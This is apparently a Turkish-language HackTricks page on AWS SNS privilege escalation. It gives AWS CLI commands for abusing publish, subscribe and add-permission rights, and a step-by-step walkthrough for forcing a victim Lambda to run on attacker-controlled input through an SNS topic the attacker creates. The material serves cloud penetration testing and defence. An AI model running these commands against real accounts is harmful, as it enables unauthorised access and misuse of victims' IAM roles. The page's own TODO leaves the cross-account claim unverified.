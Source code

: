 # AWS - SNS Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## SNS

Daha fazla bilgi için bakın:

{{#ref}}
../../aws-services/aws-sns-enum.md
{{#endref}}

### `sns:Publish`

Bir saldırgan, SNS konusuna kötücül veya istenmeyen mesajlar gönderebilir; bu, veri bozulmasına, istem dışı eylemlerin tetiklenmesine veya kaynakların tükenmesine neden olabilir.
```bash
aws sns publish --topic-arn <value> --message <value>
```
**Olası Etki**: Zafiyetin kötüye kullanılması, veri bozulması, istenmeyen eylemler veya kaynak tükenmesi.

### `sns:Subscribe`

Bir saldırgan bir SNS topic'ine abone olabilir; bu, mesajlara yetkisiz erişim sağlamasına veya topic'e bağlı uygulamaların normal işleyişini bozmasına yol açabilir.
```bash
aws sns subscribe --topic-arn <value> --protocol <value> --endpoint <value>
```
**Potansiyel Etki**: Mesajlara (hassas bilgiler) yetkisiz erişim; etkilenen topic'e bağlı uygulamalar için hizmet kesintisi.

### `sns:AddPermission`

Bir saldırgan yetkisiz kullanıcılara veya servislere bir SNS topic'ine erişim verebilir ve bu sayede potansiyel olarak ek izinler elde edebilir.
```bash
aws sns add-permission --topic-arn <value> --label <value> --aws-account-id <value> --action-name <value>
```
**Muhtemel Etki**: Yetkisiz kullanıcılar veya servisler tarafından topic'e izinsiz erişim, mesajların ifşa olması veya topic'in manipüle edilmesi, topic'e bağlı uygulamaların normal çalışmasının bozulması.

### Wildcard SNS iznini kötüye kullanarak Lambda'yı çağırma (no `SourceArn`)

Eğer bir Lambda function resource-based policy `sns.amazonaws.com`'un onu invoke etmesine izin veriyorsa ve kaynak topic'i (`SourceArn`) kısıtlamıyorsa, herhangi bir SNS topic (diğer bir hesapta olsa bile) subscribe olabilir ve fonksiyonu tetikleyebilir. Temel SNS izinlerine sahip bir saldırgan, Lambda'yı kendi kontrolündeki girdi ile onun IAM rolü altında çalıştırmaya zorlayabilir.

> [!TIP]
> TODO: Bu gerçekten cross-account yapılabilir mi?

Önkoşullar
- Hedef Lambda politikası aşağıdaki gibi bir ifade içerir, `SourceArn` koşulu YOK:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {"Service": "sns.amazonaws.com"},
"Action": "lambda:InvokeFunction"
// No Condition/SourceArn restriction here
}
]
}
```
Kötüye kullanım adımları (aynı veya hesaplar arası)
```bash
# 1) Create a topic you control
ATTACKER_TOPIC_ARN=$(aws sns create-topic --name attacker-coerce --region us-east-1 --query TopicArn --output text)

# 2) Subscribe the victim Lambda to your topic
aws sns subscribe \
--region us-east-1 \
--topic-arn "$ATTACKER_TOPIC_ARN" \
--protocol lambda \
--notification-endpoint arn:aws:lambda:us-east-1:<victim_acct_id>:function:<VictimFunctionName>

# 3) Publish an attacker-controlled message to trigger the Lambda
aws sns publish \
--region us-east-1 \
--topic-arn "$ATTACKER_TOPIC_ARN" \
--message '{"Records":[{"eventSource":"aws:s3","eventName":"ObjectCreated:Put","s3":{"bucket":{"name":"attacker-bkt"},"object":{"key":"payload.bin"}}}]}'
```
**Olası Etki**: Hedef Lambda, IAM rolü ile çalışır ve saldırgan tarafından kontrol edilen girdiyi işler. İzinlerine bağlı olarak bu, fonksiyonun hassas işlemler gerçekleştirmesi için kötüye kullanılabilir (ör. S3'e yazma, secrets'e erişme, kaynakları değiştirme).


{{#include ../../../../banners/hacktricks-training.md}}
